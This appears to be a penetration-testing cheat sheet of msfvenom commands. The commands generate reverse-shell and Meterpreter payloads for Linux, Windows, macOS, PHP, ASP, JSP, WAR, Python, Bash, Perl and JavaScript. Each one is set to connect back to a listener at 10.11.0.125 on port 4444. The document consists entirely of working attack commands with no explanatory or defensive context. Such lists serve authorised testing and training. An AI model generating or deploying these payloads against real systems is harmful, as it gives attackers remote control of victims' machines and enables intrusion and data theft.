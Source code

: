 ## MSFVenom Payloads

**Linux**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f elf > shell.elf

>msfvenom -p linux/x86/meterpreter/reverse_tcp --platform linux LHOST=10.11.0.125 LPORT=4444 -f elf -o fcshell.bin

**Windows**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f exe > shell.exe

**Mac**
>msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f macho > shell.macho 

**PHP**
>msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.php

**ASP**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f asp > shell.asp

**JSP**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.jsp

**WAR**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f war > shell.war 

**Python**
>msfvenom -p cmd/unix/reverse_python LHOST=10.11.0.125 LPORT=4444 -f raw > shell.py

**Bash**
>msfvenom -p cmd/unix/reverse_bash LHOST=10.11.0.125 LPORT=4444 -f raw > shell.sh

**Perl**
>msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.125 LPORT=4444 -f raw > shell.pl 

**JavaScript (little endian)**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f js_le

